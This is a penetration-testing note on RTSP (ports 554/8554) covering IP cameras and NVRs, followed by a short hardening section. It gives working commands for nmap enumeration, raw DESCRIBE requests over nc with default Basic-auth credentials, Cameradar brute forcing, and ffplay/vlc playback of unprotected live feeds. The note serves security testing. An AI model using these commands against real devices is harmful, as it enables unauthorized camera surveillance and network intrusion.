

# 62 - RTSP (Ports 554/8554) Pentesting

## 1. Executive Summary

RTSP (Real-Time Streaming Protocol) controls media streams — overwhelmingly **IP cameras, NVRs, and DVRs** — on **TCP 554** (and 8554). It's a "remote control" for streams (PLAY/PAUSE), with the actual video carried by RTP. The attack value is **unauthenticated or weakly-authenticated camera feeds**: many devices expose streams with no auth, default creds (`admin:admin`, `admin:1234`), or guessable stream paths. A successful `DESCRIBE` (optionally with Basic auth) confirms access, then you pull live video — a serious privacy/physical-surveillance breach.

## 2. Protocol Overview & Architecture

RTSP is HTTP-like text over TCP. Key method: **`DESCRIBE`** returns the SDP describing the stream — `200 OK` (open), `401` (auth needed), `404` (wrong path). Auth is usually HTTP Basic (base64 user:pass) or Digest. Devices expose vendor-specific **stream paths** (`/live`, `/mpeg4`, `/h264`, `/Streaming/Channels/101`), so finding the right path + credentials is the whole exercise.

## 3. Enumeration & Footprinting

```bash
nmap -sV --script "rtsp-*" -p 554,8554 <IP>     # rtsp-methods, rtsp-url-brute

# Manual DESCRIBE
printf 'DESCRIBE rtsp://<IP>:554 RTSP/1.0\r\nCSeq: 2\r\n\r\n' | nc <IP> 554
# With Basic auth (base64 admin:1234 = YWRtaW46MTIzNA==)
printf 'DESCRIBE rtsp://<IP>:554 RTSP/1.0\r\nCSeq: 2\r\nAuthorization: Basic YWRtaW46MTIzNA==\r\n\r\n' | nc <IP> 554
```

## 4. Exploitation Deep Dive

### 4.1 Stream Path + Credential Brute Force
**Cameradar** automates path discovery + credential brute + thumbnail grab:
```bash
cameradar -t <IP> -p 554
```
RTSP-specific routing/path brute and weak default creds are the common wins.

### 4.2 View the Feed
Once you have a valid URL (+creds), play it:
```bash
ffplay -rtsp_transport tcp rtsp://admin:1234@<IP>:554/Streaming/Channels/101
vlc rtsp://<IP>:554/mpeg4
```

### 4.3 Device Pivot
The camera/NVR is often a Linux box — its web UI or default creds can give a shell / config (Wi-Fi keys, internal network info).

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Live/recorded video access (surveillance, physical recon of the site).
- Device foothold → internal network pivot, stored Wi-Fi/network creds.

## 7. Defense & Hardening
1. Require strong authentication; change all default camera credentials.
2. Put cameras/NVRs on an isolated VLAN; never expose 554 to the internet.
3. Patch device firmware; disable unused RTSP/ONVIF endpoints.
4. Use TLS (RTSPS) where supported.

## 8. Chaining Opportunities
- Device foothold → **[[08 - Linux Privilege Escalation]]**.
- Related IoT camera path: **[[94 - P2P PPPP Cameras Pentesting]]**.

## 9. Related Notes
- [[63 - SIP VoIP (Port 5060) Pentesting]]

## 10. Tools
`nmap` rtsp-*, `cameradar`, `ffplay`/`vlc`, `nc`.
